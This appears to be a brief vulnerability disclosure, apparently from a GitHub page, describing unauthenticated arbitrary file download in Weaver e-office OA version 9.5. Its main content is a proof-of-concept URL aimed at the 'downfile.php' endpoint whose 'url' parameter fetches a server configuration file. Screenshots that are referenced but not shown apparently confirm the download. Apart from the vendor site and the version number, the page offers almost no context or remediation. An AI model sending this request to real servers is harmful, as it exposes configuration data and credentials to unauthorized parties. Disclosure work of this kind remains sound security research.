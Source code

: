 Weaver OA v9.5 has unauthorized access to any files

official website:https://www.e-office.cn/

Version:9.5


The url parameter is typed and downloaded, and the file is not authorized

![微信图片_20230508202511](https://user-images.githubusercontent.com/131507436/236823305-bd9914a3-144c-4347-8492-03e95a14e781.png)

POC
```
http://url/E-mobile/App/System/File/downfile.php?url=/building/backmgr/urlpage/mobileurl/configfile/huwei_ms_config.ini
```

Download directly to the configuration file here

![WPS图片(1)](https://user-images.githubusercontent.com/131507436/236823627-52814c01-d316-4930-960e-9066453debfc.png)

